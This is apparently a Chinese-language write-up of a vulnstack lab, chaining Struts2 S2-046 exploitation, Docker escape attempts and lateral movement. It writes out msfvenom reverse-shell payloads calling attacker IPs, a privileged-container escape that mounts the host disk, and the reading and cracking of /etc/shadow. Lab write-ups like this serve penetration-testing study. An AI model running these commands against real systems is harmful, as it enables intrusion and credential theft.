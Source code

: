 ## 文章

http://vulnstack.qiyuanxuetang.net/vuln/detail/6/

[环境搭建](https://www.bilibili.com/video/BV16e4y1h7m2/?spm_id_from=333.999.0.0&vd_source=c1315f6e47145c74f7c3b5f579a7e70d)

## 打靶过程

先用nmap进行端口扫描

```bash
nmap -p- --min-rate 10000 -Pn 192.168.157.128
```

发现开启了22、2001、2002、2003端口

![image-20230926225204107](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230926225204107.png)

再重点对这些端口进行扫描

```bash
nmap -p 22,2001,2003,2002 -sV -sC -Pn 192.168.157.128
```

![image-20230926225539564](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230926225539564.png)

先访问2001端口看看，nmap扫到`http-title` 为Struts2，猜测为Structs2漏洞

用扫描工具检测一下，发现S2-046漏洞

![image-20230927092102242](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927092102242.png)

尝试使用msf生成jsp马进行上传,达到上线的目的

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.110 LPORT=4444 -f jsp -o Ki1ro.jsp
```

![image-20230927092611964](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927092611964.png)

msf启动监听

![image-20230927092733951](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927092733951.png)

访问Ki1ro.jsp,成功上线

![image-20230927092843260](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927092843260.png)

打开shell，shell不是很完整，用python反弹一个完整的shell

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20230927095754622](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927095754622.png)

使用以下命令检测发现是Docker环境

```bash
cat /proc/1/cgroup | grep -qi docker && echo "Is Docker" || echo "Not Docker"
```

![image-20230927101416229](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927101416229.png)

上传 [container-escape-check](https://github.com/teamssix/container-escape-check) 来检测Docker逃逸漏洞

发现存在以下三种逃逸漏洞

![image-20230927101544404](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927101544404.png)

我这里选择 [CVE-2021-22555](https://github.com/xyjl-ly/CVE-2021-22555-Exploit)来进行容器逃逸

没有成功

![image-20230927102459151](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927102459151.png)

换 [CVE-2016-5195](https://github.com/gbonacini/CVE-2016-5195)

还是不行

![image-20230927104243350](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927104243350.png)

再尝试 [CVE-2017-1000112](https://github.com/Metarget/metarget/blob/master/writeups_cnv/kernel-cve-2017-1000112/poc.c) 也不太行

可能需要考虑攻击其他Docker服务，我这里偷个懒，在Ubuntu机器下看看哪个Docker容器开了提权

发现tomcat下开了提权，那就来打这个容器

![image-20230927110214099](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927110214099.png)

看这篇 [一文了解Tomcat/8.5.19文件上传漏洞复现](https://blog.csdn.net/allintao/article/details/129503762) 发现该版本有文件上传漏洞

上传msf jsp马

![image-20230927111436822](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927111436822.png)

访问Ki1ro.jsp后成功上线

![image-20230927111625708](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927111625708.png)

开始尝试Privileged 特权模式容器逃逸

查看挂载磁盘设备

```bash
fdisk -l
```

![image-20230927112248921](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927112248921.png)

在容器内部执行以下命令，将宿主机文件挂载到 /test 目录下

```
mkdir /test && mount /dev/sda1 /test
```

尝试访问宿主机 shadow 文件，可以看到正常访问

```bash
cat /test/etc/shadow
```

![image-20230927112057125](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927112057125.png)

我这里直接用john爆破shadow

获取ubuntu密码 ubuntu:ubuntu

![image-20230927112413091](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927112413091.png)

xshell直接连

![image-20230927112732237](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927112732237.png)

用msf生成一个elf木马

```bash
sfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.157.129 LPORT=4444 -f elf -o Ki1ro
```

用xftp上传上去，执行命令

![image-20230927113228459](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927113228459.png)

成功上线

![image-20230927113312003](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927113312003.png)

使用 `auxiliary/scanner/discovery/udp_probe` 进行内网扫描

```bash
use auxiliary/scanner/discovery/udp_probe
set rhosts 192.168.183.0/24
set threads 5
run 
```

发现两台其他主机 192.168.183.130、 192.168.183.131

![image-20230927185344159](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927185344159.png)

上传`fscan`进行扫描，发现130为域控主机，130和131都存在ms17-010漏洞

![image-20230927194155976](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230927194155976.png)

但是我怎么也利用不成功，可能环境还是有点问题，只能发动"超能力"，在131上挂一个正向连接木马

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=192.168.157.129 LPORT=4444 -f exe -o 123.exe
```

直接通过虚拟机把木马拖进去，msf开启监听，运行木马，成功上线

![image-20230928150112362](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928150112362.png)

后面因为ms17-010无法成功利用131主机，所以就不复现了，之后就是使用ms14-069进行提权，登录域控，关闭其防火墙，再使用ms17-010获取system权限
